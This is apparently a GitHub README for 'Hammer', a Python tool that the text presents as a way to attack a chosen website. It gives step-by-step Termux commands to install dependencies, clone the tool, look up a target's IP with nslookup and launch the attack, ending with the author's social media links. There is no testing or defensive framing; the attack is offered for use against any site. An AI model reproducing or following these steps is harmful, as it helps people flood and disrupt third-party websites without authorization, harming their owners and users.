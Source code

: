 $ pkg update<br>
$ pkg upgrade<br>
$ pkg install python<br>
$ pkg install git<br>
$ pkg install dnsutils<br>
$ git clone https://github.com/Azim143/Hammer/

Hammer need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd Hammer<br>
$ python hammer.py -s [ip Address] -t 135<br>
example:<br>
$ python hammer.py -s 123.45.67.89 -t 135<br>

Follow Me:
[`Fb me`](https://www.facebook.com/100022097600640)
[`Whatsapp`] (https://chat.whatsapp.com/FRfuraMrZrU3mgCtuFg75k)
